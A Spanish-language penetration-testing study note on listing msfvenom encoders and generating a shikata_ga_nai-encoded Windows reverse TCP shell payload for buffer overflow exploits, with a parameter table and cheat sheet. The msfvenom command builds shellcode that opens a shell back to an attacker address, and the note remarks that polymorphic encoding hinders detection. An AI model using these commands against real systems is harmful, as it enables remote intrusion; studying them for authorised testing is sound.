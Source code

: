 
---

# Uso de Encoders en Metasploit con `msfvenom`

En este apartado vamos a analizar dos comandos importantes dentro del proceso de explotación con técnicas de *Buffer Overflow*, concretamente relacionados con la generación y codificación del *shellcode*.

---

## 1. Listado de Encoders Disponibles

```bash
msfvenom -l encoders
````

### ¿Qué hace este comando?

Este comando lista todos los **encoders** disponibles en el framework Metasploit. Un _encoder_ es una rutina que modifica el _shellcode_ para que evite ciertos caracteres problemáticos, conocidos como _badchars_ (por ejemplo: `\x00`, `\x0a`, `\x0d`, etc.).

### ¿Para qué se usa?

Durante un ataque de _Buffer Overflow_, puede que ciertos caracteres especiales corten la ejecución del payload o lo corrompan. Usamos un _encoder_ para "ofuscar" o "codificar" el shellcode original y así evitar estos caracteres indeseados.

### Ejemplo de encoders útiles:

|Nombre del Encoder|Calidad|Descripción|
|---|---|---|
|`x86/shikata_ga_nai`|excellent|Encoder polimórfico que utiliza XOR aditivo|
|`generic/none`|normal|No codifica el payload|
|`x86/alpha_upper`|low|Codifica el payload usando solo caracteres alfabéticos mayúsculas|
|`x64/xor`|normal|Codificación básica XOR para arquitecturas x64|

---

## 2. Generación de Shellcode Encodificado

```bash
msfvenom -p windows/shell_reverse_tcp \
  --platform windows \
  -a x86 \
  LHOST=192.168.1.66 \
  LPORT=443 \
  -f c \
  -e x86/shikata_ga_nai \
  -b '\x00\x0a\x0d' \
  EXITFUNC=thread
```

### ¿Qué hace este comando?

Este comando genera un _shellcode_ que establece una **reverse shell** en una máquina Windows, codificado específicamente para evitar los caracteres problemáticos.

### Explicación de los parámetros:

|Parámetro|Significado|
|---|---|
|`-p windows/shell_reverse_tcp`|Payload que abrirá una reverse shell desde la víctima hacia el atacante|
|`--platform windows`|Define la plataforma del objetivo|
|`-a x86`|Arquitectura del objetivo (32 bits)|
|`LHOST=192.168.1.66`|IP del atacante (nuestra máquina que recibirá la shell)|
|`LPORT=443`|Puerto que escucha nuestra máquina para recibir la shell|
|`-f c`|Formato de salida en código C (útil para copiar al exploit en código fuente)|
|`-e x86/shikata_ga_nai`|Encoder utilizado: un encoder polimórfico muy popular|
|`-b '\x00\x0a\x0d'`|Badchars a evitar: nulo, salto de línea y retorno de carro|
|`EXITFUNC=thread`|Tipo de función de salida para evitar cerrar el proceso principal tras ejecución|

### Resultado

- **Tamaño del payload**: 351 bytes.
    
- **Tamaño del código C generado**: 1506 bytes.
    
- Se utilizaron 1 iteración del encoder `x86/shikata_ga_nai`.
    

### ¿Por qué usamos `shikata_ga_nai`?

Este encoder es uno de los más utilizados en arquitectura x86 porque:

- Es polimórfico: cambia su estructura en cada codificación, dificultando su detección.
    
- Permite múltiples iteraciones para ofuscar aún más el payload.
    
- Tiene una alta compatibilidad con la mayoría de exploits de _Buffer Overflow_.
    

---

## Resumen

- **Los encoders** ayudan a evitar que el payload contenga caracteres peligrosos para la aplicación vulnerable.
    
- **`msfvenom`** permite seleccionar y aplicar estos encoders directamente al generar shellcodes.
    
- En ataques de _Buffer Overflow_, es crucial asegurarse de que el shellcode no se trunque ni falle por contener _badchars_.
    

---

## Cheat Sheet

```bash
# Listar encoders disponibles
msfvenom -l encoders

# Generar un payload reverse shell encodificado
msfvenom -p windows/shell_reverse_tcp \
  LHOST=<IP> LPORT=<PUERTO> \
  -f c -e x86/shikata_ga_nai -b '<badchars>' \
  EXITFUNC=thread
```

---
